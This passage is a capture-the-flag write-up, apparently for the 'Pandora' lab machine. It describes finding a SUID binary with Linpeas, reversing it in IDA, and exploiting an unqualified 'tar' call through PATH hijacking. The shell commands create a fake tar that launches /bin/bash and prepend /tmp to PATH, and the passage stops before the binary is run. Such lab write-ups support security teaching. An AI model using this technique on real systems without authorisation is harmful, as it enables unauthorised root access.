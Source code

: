 ### Exploiting pandora_backup

Using Linpeas, we realize that there is a setuid bit for /usr/bin/pandora_backup which could be exploited

```
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
╔══════════╣ SUID - Check easy privesc, exploits and write perms                                                     
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                          
strings Not Found                                                                                                    
-rwsr-xr-x 1 root root 163K Jan 19  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable                
-rwsr-xr-x 1 root root 31K May 26  2021 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)                                                                                                                  
-rwsr-xr-x 1 root root 84K Jul 14  2021 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 44K Jul 14  2021 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 87K Jul 14  2021 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39K Jul 21  2020 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-x--- 1 root matt 17K Dec  3 15:58 /usr/bin/pandora_backup (Unknown SUID binary)
```

Reversing the /usr/bin/pandora_backup using IDA, we realize that this executable is vulnerable to path injection attack as the full path of tar was not specified in the code. 

```
if ( system("tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*") )
```

### Exploiting path injection for privilege escalation to root
First, we would have to create a tar executable that will execute the "/bin/bash" command. Afterwards, we will modify the permissions of the tar executable to give it execute permissions. 

```
matt@pandora:/tmp$ echo "/bin/bash" > tar
matt@pandora:/tmp$ chmod +x tar
```

Next, we will have to modify the $PATH variables to add the current directory into our $PATH variable. 

```
matt@pandora:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:/tmp$ export PATH=$(pwd):$PATH
matt@pandora:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:/tmp$ 
```
